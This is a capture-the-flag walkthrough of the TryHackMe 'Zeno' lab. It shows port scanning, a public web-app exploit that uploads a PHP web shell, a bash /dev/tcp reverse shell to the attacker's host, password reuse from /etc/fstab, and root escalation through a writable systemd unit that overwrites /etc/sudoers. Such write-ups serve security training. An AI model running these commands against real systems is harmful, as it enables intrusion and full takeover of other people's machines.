

| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/zeno)  | Medium  |  [Biniru](https://tryhackme.com/p/Biniru)  |

## Reconn

Welcome again! 

Let's start this machine with an `nmap` scan, to see what services are running!

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.229.206 -p- -sS --min-rate 5000 -n -Pn                                                                            ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-23 13:16 CEST
Nmap scan report for 10.10.229.206
Host is up (0.14s latency).
Not shown: 65533 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
12340/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.86 seconds
```
Great! An `ssh` service on port `22` and an `unknown(Web server)` service running on port `12340`!

Now let's scan the web port with `gobuster`, to see what files are hidden!

```bash
╰─ lanfran@parrot ❯ scan_long http://10.10.229.206:12340/                                                                                             ─╯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.229.206:12340/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/10/23 13:38:39 Starting gobuster
===============================================================
/rms (Status: 301)
===============================================================
2021/10/23 13:43:56 Finished
===============================================================
```
A folder with a webpage running on it! 

Let's see this web!



`Restaurant Management System` is saying the page, maybe we can find a public exploit for it!

And yes! We have one [here](exp.py)

Running it, will create a php shell where we can get a revere shell connection!

```bash
╰─ lanfran@parrot ❯ python3 exp.py http://10.10.229.206:12340/rms/                                                                                    ─╯

    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|


Credits : All InfoSec (Raja Ji's) Group
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL : http://10.10.229.206:12340/rms/images/reverse-shell.php
```

We can check if the shell is working with a common command!

```bash
╰─ lanfran@parrot ❯ curl "http://10.10.229.206:12340/rms/images/reverse-shell.php?cmd=id"                                                             ─╯
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```
And yes! The server is running with the user `apache`.

## Foothold - User

Let's get a reverse shell!

```bash
[Terminal 1]

╰─ lanfran@parrot ❯ curl http://10.10.229.206:12340/rms/images/reverse-shell.php\?cmd\=bash+-i+%3E%26+/dev/tcp/10.9.2.74/1337+0%3E%261                ─╯

------

[Terminal 2]

╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                                     ─╯
listening on [any] 1337 ...
connect to [10.9.2.74] from (UNKNOWN) [10.10.229.206] 39332
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```
Now, let's scan the machine with `Linpeas` or manually...

We can find a file, storing the shared filesystems! and inside it a password for the user `zeno`.

```bash
bash-4.2$ cat /etc/fstab

#
# /etc/fstab
# Created by anaconda on Tue Jun  8 23:56:31 2021
#
# Accessible filesystems, by reference, are maintained under '/dev/disk'
# See man pages fstab(5), findfs(8), mount(8) and/or blkid(8) for more info
#
/dev/mapper/centos-root	/	xfs	defaults	0 0
UUID=507d63a9-d8cc-401c-a660-bd57acfd41b2	/boot	xfs	defaults	0 0
/dev/mapper/centos-swap	swap	swap	defaults	0 0
#//10.10.10.10/secret-share	/mnt/secret-share	cifs	_netdev,vers=3.0,ro,username=zeno,password=F[REDACTED]a,domain=localdomain,soft	0 0
```

Maybe we can try this password with the user on this machine `edward`...

```bash
bash-4.2$ su edward
Password: 
[edward@zeno home]$ id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=system_u:system_r:httpd_t:s0
[edward@zeno home]$ cat /home/edward/user.txt 
THM{[REDACTED]}
```
Yep! Worked!

## Root

Now let's escalate to root!

```bash
[edward@zeno home]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```
We can run as sudo the `reboot` binary!

Searching the files of this machine, we found that the `zeno-monitoring.service` is writable for everyone!
```bash
[edward@zeno home]$ ls -la /etc/systemd/system/zeno-monitoring.service
-rw-rw-rw-. 1 root root 141 Sep 21 22:24 /etc/systemd/system/zeno-monitoring.service
```
So we can edit it to run an exploit!

```bash
[edward@zeno home]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```

Editing it, should look like this:

```bash
[edward@zeno home]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/sh -c 'echo "edward ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

[Install]
WantedBy=multi-user.target
```
This exploit will add our user to the `sudoers` file, so we can run all commands with `sudo`.

After that, let's reboot the machine and see if the exploit worked!
```bash
[edward@zeno home]$ sudo /usr/sbin/reboot 
```
Wait for the machine to reboot, and connect via `ssh` with the user `edward`.

```bash
╰─ lanfran@parrot ❯ ssh edward@10.10.229.206                                                                                                          ─╯
edward@10.10.229.206's password: 
Last login: Sat Oct 23 14:38:36 2021
[edward@zeno ~]$ id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[edward@zeno ~]$ sudo -l
User edward may run the following commands on zeno:
    (root) NOPASSWD: ALL
```
The exploit worked! We can run any command with sudo!
```bash
[edward@zeno ~]$ sudo su
[root@zeno edward]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@zeno edward]# cat /root/root.txt 
THM{[REDACTED]}
```
And we rooted the machine!

That's all from my side, hope you find this helpful!